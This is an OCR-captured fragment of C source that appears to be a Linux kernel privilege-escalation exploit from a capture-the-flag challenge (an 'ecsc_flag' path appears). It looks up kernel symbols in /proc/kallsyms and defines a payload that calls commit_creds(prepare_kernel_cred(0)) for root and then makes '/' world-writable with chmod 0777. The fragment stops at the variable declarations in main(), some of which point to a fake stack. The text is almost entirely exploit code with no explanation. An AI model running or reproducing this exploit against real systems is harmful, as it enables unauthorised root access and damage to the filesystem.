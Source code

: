 
prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;

static void
kernel_code(void)
{
    commit_creds(prepare_kernel_cred(0));
    syscall(SYS_chmod, "/", 0777);
    exit(0);
}


unsigned long get_kernel_sym(char *name) {
    FILE *f;
    unsigned long addr;
    char dummy;
    char sname[256];
    int ret = 0;


    f = fopen("/proc/kallsyms", "r");
    if (f == NULL) {
        printf("[-] Failed to open /proc/kallsyms\n");
        exit(-1);
    }
    printf("[+] Find %s...\n", name);
    while(ret != EOF) {
        ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
        if (ret == 0) {
            fscanf(f, "%s\n", sname);
            continue;
        }
        if (!strcmp(name, sname)) {
            fclose(f);
            printf("[+] Found %s at %lx\n", name, addr);
            return addr;
        }
    }
    fclose(f);
    return 0;
}


int main() {

    int fd, nread;
    char buf[BUF_SIZE];
    struct linux_dirent *d;
    char file_name[138] = "/home/ctf/ecsc_flag_AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYY";
    char *p;
    void *payload;

    unsigned long base_addr, stack_addr, mmap_addr, *fake_stack, *fake_stack2;
